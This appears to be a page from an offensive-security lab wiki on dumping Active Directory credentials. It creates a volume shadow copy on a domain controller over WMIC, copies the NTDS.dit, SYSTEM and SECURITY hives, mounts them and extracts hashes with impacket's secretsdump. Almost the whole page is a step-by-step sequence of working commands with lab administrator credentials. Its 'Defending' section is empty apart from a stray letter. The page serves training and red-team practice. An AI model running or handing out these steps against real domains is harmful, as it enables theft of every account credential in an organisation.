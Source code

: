 # Vssadmin Shadow Copy

## Configuring

No need to configure anything.

## Attacking

### How it works

With Domain Admin credentials it is possible to copy the NTDS.dit, SYSTEM and SECURITY hives remotely from the Domain Controller.

### Tools

* [Secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)

### Executing the attack

The attack requires Domain Admin credentials and is a post exploitation attack to extract credentials.

1. Login to `WS01` as a normal user. For example `Richard` and the password `Sample123`.
2. Open PowerShell and Execute the following command to create a shadowcopy of the C: disk with the vssadmin utility.

```
wmic /node:dc02 /user:administrator@amsterdam.bank.local /password:'Welcome01!' process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```

![](<../../../.gitbook/assets/image (15).png>)

3\. Now we can copy the NTDS.dit, SYSTEM and SECURITY hives to the `C:\temp` directory.

```
wmic /node:dc02 /user:administrator@amsterdam.bank.local /password:'Welcome01!' process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```

![](<../../../.gitbook/assets/image (3).png>)

{% hint style="info" %}
Make sure the C:\temp directory exists on the DC before executing this command!
{% endhint %}

4\. The next step is to mount the `C:\temp` directory and access the files:

```
$creds = Get-Credential
New-PSDrive -Credential $creds -Name j \\dc02\c$\temp -PSProvider FileSystem
cd \\dc02\c$\temp
```

![](<../../../.gitbook/assets/image (12).png>)

![](<../../../.gitbook/assets/image (9).png>)

5\. Copy the files to your Kali and execute the following command to extract the credentials.

```
python3 /opt/impacket/examples/secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```

![](../../../.gitbook/assets/image.png)

![](<../../../.gitbook/assets/image (14).png>)



## Defending

### Recommendations

* a

### Detection



## References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin" %}

